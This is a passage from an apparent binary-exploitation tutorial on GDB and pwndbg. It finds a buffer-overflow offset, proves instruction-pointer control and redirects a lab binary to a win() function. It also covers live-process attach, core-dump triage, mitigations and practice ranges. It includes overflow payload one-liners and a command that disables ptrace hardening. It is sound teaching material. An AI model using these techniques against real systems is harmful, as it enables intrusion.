```bash
gdb -q ./vuln
pwndbg> cyclic 200
aaaaaaaabaaaaaaac...          # copy this
pwndbg> run
name? <paste the cyclic pattern>
# Program received signal SIGSEGV
# ... pwndbg context shows:
# RSP  0x7fffffffe390 ◂— 'kaaaaaaalaaaaaaa...'
# RIP  0x401180 (greet+...)  <- crashed at the ret
```

### Step 3 — Find the exact offset to the return address

```bash
# The 8 bytes sitting where the return address should be, at RSP after the ret executes:
pwndbg> cyclic -l kaaaaaaa
Finding cyclic pattern of 8 bytes: b'kaaaaaaa' found at offset 40
# 40 bytes of padding reach the saved return address.
```

Sanity-check against the source: `name[32]` + 8 bytes saved RBP = 40 bytes before the return address. The debugger agrees with the math — always confirm both.

### Step 4 — Prove control of RIP

Craft an input of 40 filler bytes then eight bytes marking the return slot, and confirm RIP takes our value:

```bash
pwndbg> run < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"BBBBBBBB")')
# Program received signal SIGSEGV
pwndbg> p $rip
$1 = 0x401180                 # it faulted trying to RETURN into 0x4242424242424242
pwndbg> x/gx $rsp-8
0x...: 0x4242424242424242     # our 'BBBBBBBB' is exactly where ret pops from -> WE CONTROL RIP
```

The 0x42 bytes landing in the return slot is the money shot: **we control the instruction pointer.** In a report or CTF write-up this is the "proof of control" milestone.

### Step 5 — Redirect to win()

Replace the eight `B`s with the little-endian address of `win` (`0x401156`):

```bash
pwndbg> run < <(python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*40 + struct.pack("<Q",0x401156))')
# you win — shell would go here
```

`struct.pack("<Q", 0x401156)` writes the 8-byte little-endian address. The program prints the `win` message — we redirected execution to a function that was never supposed to be called. That is the entire skeleton of control-flow hijacking, done entirely inside the debugger.

### Step 6 — Root-cause with a watchpoint (bonus)

To *see* the moment the return address is clobbered:

```bash
pwndbg> break greet
pwndbg> run
pwndbg> p $rbp                          # note the frame; return addr is at rbp+8
pwndbg> watch *(long*)($rbp+8)          # watch the saved return address slot
pwndbg> continue
# Hardware watchpoint: old value = 0x401189 (main+..)  new value = 0x4141414141414141
# ...stopped inside gets() at the exact write that overwrote the return address.
```

The watchpoint stops you at the precise instruction inside `gets` that overwrites the return address — the definitive root cause. That is the technique you will reuse for every "something got corrupted and I don't know where" bug for the rest of this notebook.

---

## Part 12B: Attaching to a Live Service and Core-Dump Triage

Not every target is a program you `run` from a prompt. Two extremely common real-world situations are a **long-running network service** and a **crash you only have a core file for**.

### Attaching to a running process

A network daemon that forks a child per connection cannot be driven with `run < payload`; you attach to the live process instead. The workflow:

```bash
# Find the PID of the running service
pgrep -a vulnserver
# 4711 ./vulnserver

# Attach — GDB stops the process wherever it currently is
gdb -q -p 4711
pwndbg> vmmap                       # confirm libc base, stack, heap for THIS run
pwndbg> break *0x401200             # set your breakpoint
pwndbg> continue                    # let it run; now trigger the bug from the network
```

Two gotchas specific to attaching:

- **`set follow-fork-mode child`** — if the service forks to handle each client, tell GDB to follow the child that actually processes your input, or you will sit in the idle parent. `set detach-on-fork off` keeps both under control.
- **Yama ptrace_scope.** Modern kernels restrict attaching to non-child processes. If attach fails with "Operation not permitted," either run GDB as root, or lower the restriction *on a lab box only*: `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope`. Never disable this on a production host — it is a real hardening control (see Part 13).



### Post-mortem: core-dump triage

When a program crashes it can drop a **core dump** — a snapshot of its memory and registers at the fault. You debug it without re-running anything, which is how you triage a crash you cannot reproduce on demand.

```bash
# Ensure cores are written (size unlimited) and find where they go
ulimit -c unlimited
cat /proc/sys/kernel/core_pattern      # where the kernel writes cores (or systemd-coredump)

# Trigger the crash, then load the core with the binary
gdb -q ./vuln ./core
pwndbg> bt                    # backtrace at the moment of death
pwndbg> info registers        # RIP/RSP exactly as they were at the fault
pwndbg> x/16xg $rsp           # the stack that caused it
pwndbg> p $rip                # 0x4141414141414141  -> controlled RIP, proven from a core
```

If your distro uses `systemd-coredump`, retrieve the core with `coredumpctl`:

```bash
coredumpctl list                 # recent crashes
coredumpctl gdb vuln             # open the latest core for 'vuln' straight in GDB
coredumpctl dump vuln -o core    # export the raw core file
```

**VR use case:** a fuzzer (Chapter 8) produces thousands of crashing inputs; you do not re-run each interactively — you collect cores (or run under a harness) and triage them post-mortem, bucketing by the faulting RIP. Core-dump fluency is what makes crash triage scale.

---

## Part 13: Detection & Defense Angle

Debugging is a neutral instrument, but the same primitives cut both ways, and a security engineer should understand both edges.

**Anti-debugging in the wild.** Because breakpoints are patched `0xCC` bytes and `ptrace` can only attach once, defensive/evasive software detects debuggers by (a) calling `ptrace(PTRACE_TRACEME)` on itself so a later attach fails, (b) scanning its own code for `0xCC`, (c) checking `/proc/self/status` for a non-zero `TracerPid`, or (d) timing checks (single-stepping is thousands of times slower). **Blue-team relevance:** malware analysts (see the Malware notebook, Chapter 7) defeat these with GDB Python hooks that fake `ptrace` return values or patch out the checks; recognising an anti-debug check in disassembly — a `ptrace` call whose result gates an early `exit` — is a standard triage skill.

**Hardening that this chapter's `checksec` reads.** The mitigations you inspect are exactly the defences the rest of the notebook attacks and that defenders must keep enabled:

| Mitigation | What it stops | Enabled with |
|------------|---------------|--------------|
| Stack canary | naive stack overflows overwriting return addr | `-fstack-protector-strong` (default) |
| NX / DEP | executing shellcode on the stack/heap | on by default; needs `-z execstack` to disable |
| Full RELRO | GOT overwrite | `-Wl,-z,relro,-z,now` |
| PIE + ASLR | hardcoded gadget/function addresses | `-fPIE -pie` + kernel `randomize_va_space=2` |
| FORTIFY_SOURCE | some unsafe libc calls at compile time | `-D_FORTIFY_SOURCE=2 -O2` |

**Detection at runtime.** From the defender's side, a process being freshly `ptrace`d, a `gdbserver` listening socket, or a service spawning `/bin/sh` from a network-facing binary are all high-signal telemetry — the `catch syscall execve` proof-of-exploit in Part 6 is exactly the event an EDR watches for on a server that should never spawn a shell. Understanding the debugger teaches you both how an exploit is proven and what its success looks like in logs.

---

## Part 14: Common Pitfalls

- **Forgetting the `*` on address breakpoints.** `break 0x401156` means *line* 0x401156; `break *0x401156` means *address*. The missing star silently sets the wrong breakpoint.
- **ASLR making addresses "change every run."** By default GDB **disables** ASLR for the target (`set disable-randomization on`, the default), so addresses look stable in the debugger but move when you run outside it. Turn it off deliberately with `set disable-randomization off` when you need realistic addresses, and never hardcode a libc/stack address you saw in GDB into an exploit that runs outside GDB.
- **The environment differs inside vs. outside GDB.** GDB adds environment variables (`LINES`, `COLUMNS`) that shift the stack, so an offset perfect in GDB can be off by a few bytes outside it. Match the environment or compute offsets from a leak, not from an absolute address.
- **Little-endian confusion.** Addresses go into memory least-significant-byte first. `0x401156` becomes `\x56\x11\x40\x00\x00\x00\x00\x00`. Always use `struct.pack("<Q", addr)` / pwntools `p64()`, never type the bytes by hand.
- **Stepping with `s`/`n` when you mean `si`/`ni`.** Source-level stepping needs symbols and skips the instruction detail where the bug lives. In exploitation, default to instruction stepping.
- **Recording from `main` and waiting forever.** Reverse-debugging records every instruction; scope `record` to just before the crash region.
- **Reading a stripped binary and expecting symbol names.** No symbols means `break main` fails; find the entry with `info file` / `entry` and work from addresses. pwndbg's `main` heuristic helps but is not guaranteed.
- **Attaching fails with "Operation not permitted."** That is Yama `ptrace_scope`, not a bug — attach as root or lower the scope on a lab box only. Do not confuse this with an anti-debug check inside the target.
- **Sitting in the parent after a fork.** A forking server hands your input to a child; without `set follow-fork-mode child` you breakpoint in the wrong process and nothing ever triggers.
- **Trusting an address across ASLR toggles.** A stack/libc address seen with randomization disabled is meaningless once you run with it on. Only hardcode addresses that are truly fixed (No-PIE `.text`), and derive everything else from a runtime leak.
- **`p system` printing the PLT stub, not libc.** In a dynamically linked binary, `p system` may show the PLT thunk address, not libc's real `system`. Resolve the real address from the libc base (`p $libc + off`) once you have a leak.

---

## Part 15: Final Revision / Summary

- A debugger controls a target via `ptrace`; **breakpoints are patched `0xCC` bytes**, which explains both how they work and how anti-debug tricks detect them.
- Internalise **process memory layout**: `.text`/`.rodata` fixed code and constants, heap grows up, **stack grows down while buffers grow up** (the root of stack overflows), libc mapped via mmap.
- Know the **System V calling convention cold**: args in `RDI, RSI, RDX, RCX, R8, R9`, return in `RAX`; `call` pushes a return address, `ret` pops RIP from the stack — the seed of ROP.
- **`checksec` first, always**: RELRO/canary/NX/PIE tell you the exploit strategy before you write a byte.
- **pwndbg** gives you auto-context, `vmmap`, `telescope`, `search`, and `cyclic` — `cyclic` finds the return-address offset in one crash with zero counting.
- Master `x/NFU`, `telescope`, breakpoints/watchpoints/catchpoints, and state editing (`set $rip=...`) — the ability to *edit* state turns the debugger into a hypothesis-testing lab.
- **Watchpoints + reverse-debugging** give the fastest root-cause loop: watch the corrupted value, run backward, land on the instruction that wrote it.
- **gdbserver / gdb-multiarch + QEMU** extend all of this to remote and cross-architecture targets (embedded/IoT firmware).
- The lab proved the core exploitation milestone entirely in the debugger: reproduce → `cyclic` offset → prove RIP control → redirect to `win()`.
- **Two calling conventions, never confused:** function calls use RDI/RSI/RDX/RCX/R8/R9 with the result in RAX; raw `syscall` uses RAX for the number and **R10** (not RCX) for the fourth argument.
- **Live targets and cores extend everything:** attach with `-p PID` (mind Yama and `follow-fork-mode`), and triage crashes post-mortem from core files with `coredumpctl gdb` — the workflow that lets fuzzing crash-triage scale.

The whole chapter reduces to one repeatable loop you will run on every target for the rest of this notebook:



You now have the instrument. Chapter 2 uses it to turn "I control RIP" into a full, scripted stack-overflow exploit with pwntools.

---

## Part 16: Cheat Sheet / Quick Reference

**Launch**

```bash
gdb -q ./vuln              # start           gdb -q -p PID       # attach
gdb -q --args ./vuln AAA   # with args       gdb -q ./vuln core  # post-mortem
pwn checksec ./vuln        # protections BEFORE anything
```

**Execution**

```bash
r / start / c              # run / run-to-main / continue
si / ni                    # step one instruction (into / over)
finish                     # run to end of current function
```

**Breakpoints & data**

```bash
b main | b *0x401156 | tbreak *ADDR      # code breakpoints
watch VAR | rwatch VAR | awatch VAR      # data breakpoints
catch syscall execve                     # prove code exec
i b   /   delete N                       # list / remove
```

**Inspect**

```bash
x/40xg $rsp        # 40 stack qwords          telescope $rsp 30   # deref chain
x/4i  $rip         # disassemble at RIP        vmmap               # memory map
i r  /  p $rdi     # registers                 search -t bytes "/bin/sh"
```

**Modify (hypothesis testing)**

```bash
set $rip = 0xADDR          set $rdi = 0xADDR
set {long}0xADDR = 0xVAL   set var name = value
```

**Offset finding**

```bash
cyclic 200                 # generate pattern
cyclic -l 0xVALUE          # value-in-RSP/RIP -> offset
```

**Endianness:** `struct.pack("<Q", 0x401156)` or pwntools `p64(0x401156)`. Never hand-type address bytes.

---

## Part 17: Practice Labs & Resources

Build debugger fluency on ranges that reward it:

- **pwn.college (Program Interaction / Debugging & Reverse Engineering modules).** The best structured path — dozens of GDB-driven challenges that force exactly the commands in this chapter.
- **picoCTF — Binary Exploitation category (`buffer overflow 0/1/2`, `gdb` warmups).** Beginner-friendly, browser-hosted; solve them entirely from GDB before writing any script.
- **OverTheWire — Narnia and Behemoth wargames.** Small SUID binaries you debug over SSH; ideal for `x`, `telescope`, and offset practice.
- **Nightmare (guyinatuxedo) — the "Modern Binary Exploitation"-style course on GitHub.** Free, self-paced, starts with GDB/pwndbg fundamentals and builds to heap.
- **Exploit Education — Phoenix and Nebula.** Deliberately vulnerable programs with source, perfect for the "read the C, confirm in the debugger" habit.
- **`gef` and `pwndbg` official docs.** Skim the command reference once so you know what exists (`heap`, `rop`, `tls`, `canary` commands you will need in later chapters).
- **crackmes.one (easy, Linux ELF).** Practice reverse-debugging and watchpoint-driven analysis on small unknown binaries.
- **HackTheBox — "pwn" challenges (starting-point / very easy).** Remote services you attach to and drive over the network — perfect for the `gdbserver`, live-attach, and `follow-fork-mode` skills in Parts 11–12B.
- **ROP Emporium (`ret2win` first challenge).** Even before Chapter 3, its opening level is an ideal "prove RIP control and redirect to a win function" exercise done entirely in GDB — the same loop as this chapter's lab.

A concrete graduation test: take any easy picoCTF or ROP Emporium binary, and without running it outside GDB, produce (1) its `checksec` strategy read, (2) the exact overflow offset via `cyclic`, (3) a `p $rip`-proven control of the instruction pointer, and (4) a watchpoint that lands on the instruction doing the corruption. If you can do all four without notes, you are ready for Chapter 2.

Do ten challenges where you never leave GDB — no external tools, just the debugger — and the commands here will become muscle memory. That fluency is the prerequisite for every remaining chapter.
